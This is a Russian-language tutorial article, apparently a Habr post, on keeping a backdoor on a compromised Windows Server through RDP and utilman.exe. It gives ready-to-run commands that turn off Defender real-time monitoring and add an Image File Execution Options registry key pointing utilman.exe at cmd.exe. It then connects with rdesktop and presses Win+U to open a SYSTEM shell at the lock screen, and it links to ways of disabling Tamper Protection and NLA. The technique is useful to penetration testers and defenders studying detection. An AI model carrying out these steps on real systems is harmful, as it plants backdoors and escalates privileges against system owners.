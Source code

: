 # Persistence by changing the registry
Привет! Сегодня хотелось бы рассмотреть стандартный, но необычный способ закрепления в системе через RDP, используя utilman.exe.

Представим следующую ситуацию: нам удалось получить reverse shell от целевого хоста. Безусловно, нам необходим backdoor для обеспечения постоянного доступа. В процессе сканирования мы узнаем об открытом 3389 порте. И как нам быть?

#### Немного теории

**RDP (Remote Desktop Protocol)** — это протокол для удаленного подключения к компьютеру или серверу с ОС Windows. С его помощью пользователи могут подключиться к удаленной машине и взаимодействовать с ее рабочим столом так, как если бы они физически находились перед ней. Чаще всего служба RDP используется для администрирования серверов, технической поддержки пользователей и удаленной работы.

**Utilman.exe** — это служебная программа Windows, которая служит для запуска специальных возможностей на экране блокировки (экранный диктор, экранная клавиатура, лупа и т. п.).

**Реестр Windows** - иерархически построенная база данных параметров и настроек в большинстве операционных систем Microsoft Windows. Реестр содержит информацию и настройки для аппаратного обеспечения, программного обеспечения, профилей пользователей, предустановки.

#### Информация о жертве

Сразу хотелось бы отметить, что целевой хост имеет следующую ОС:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/73e/a6c/462/73ea6c46241e7430c2540b567761b5f6.png)

Ключевой особенностью систем Windows Server является отключенное по умолчанию свойство "Tamper Protection", которое обеспечивает дополнительную защиту от изменений ключевых функций безопасности, включая ограничение изменений, которые не вносятся непосредственно через приложение. Другими словами, запрещает другим вмешиваться в важные функции безопасности системы (**запрещает изменение реестра**).

Если данная функция включена, то отключить ее можно разными методами, например: [https://theitbros.com/managing-windows-defender-using-powershell/#:~:text=Tamper%20Protection%20is%20enabled%20in,action%20at%20the%20UAC%20prompt](https://theitbros.com/managing-windows-defender-using-powershell/#:~:text=Tamper%20Protection%20is%20enabled%20in,action%20at%20the%20UAC%20prompt)

Также обязательным условием является выключенный параметр "Require computers to use Network Level Authentication to connect", который запрещает подключаться по RDP без конкретной УЗ. Иными словами, запрет на попадание на экран блокировки

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/1b1/2c0/24b/1b12c024be784042d0471dc2d2904d2d.png)

[Отключение функции](https://www.anyviewer.com/how-to/disable-network-level-authentication-2578.html) "Require computers to use Network Level Authentication to connect".

#### Практический пример

Допустим, мы каким-то чудом смоги получить обратную оболочку от имени Администратора хоста:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/d43/94c/ce7/d4394cce74f1d5815b19a35930309093.png)

Давайте проверим состояние активности антивируса (общий способ):

`sc query WinDefend`

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/1be/c79/ef2/1bec79ef25cb00d4df0d531661612f11.png)

Мы видим параметр "NOT_STOPABLE", который говорит нам о том, что защита в реальном времени активна. Выключаем её:

`powershell -command "Set-MpPreference -DisableRealtimeMonitoring $true"`

и опять проверим состояние антивируса:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/ec2/87d/6f0/ec287d6f04be12a4bdb16c6b1c48d434.png)

Также можно проверить другим способом:

`powershell -command "(Get-MpPreference).DisableRealtimeMonitoring"`

Если эта команда возвращает значение False, то реальный мониторинг активен. Если True, то выключен.

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/2f2/5ef/a1f/2f25efa1fb758e42da9dd934fbff78b0.png)

Действительно, он выключен. Теперь, когда приготовления закончены, перейдем к закреплению:

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/cd8/ec3/783/cd8ec3783d31a4deffe424cbf4f1bb96.png)

_Следующий шаг несет в себе возможную потерю backdoor'a._

Теперь вернем Defender в исходное состояние:

`powershell -command "Set-MpPreference -DisableRealtimeMonitoring $false"`

и сразу проверим:

`powershell -command "(Get-MpPreference).DisableRealtimeMonitoring"`

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/6e2/501/f6f/6e2501f6fcd18c1140dcb5f1577d646c.png)

Прекращаем взаимодействие с хостом через обратную оболочку и подключаемся через rdesktop:  
`rdesktop ip`

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/e1d/f3b/56e/e1df3b56ecacdcc34b60b7553392d5b0.png)

При первом подключении принимаем сертификаты

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/c4e/7bb/924/c4e7bb9246a15e041c864c9accafebf3.png)

Теперь нам осталось нажать на значок справа внизу или комбинацию клавиш `Win+U`:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/d16/c07/cfa/d16c07cfa4b0cd69bef09f002dd1526d.png)

Успех! Теперь у нас есть backdoor от имени системы.

**Кстати, вы заметили, что мы повысили свои права от Администратора до системы?)**

#### Но почему это так работает?

Если кратко, то некоторые сервисы, службы и т.д. работают в системе с наивысшими правами. В нашем случае, utilman.exe. Изменив в реестре исполняемый файл на cmd.exe, система запускает его, опять же, с наивысшими правами (nt authority\ system)
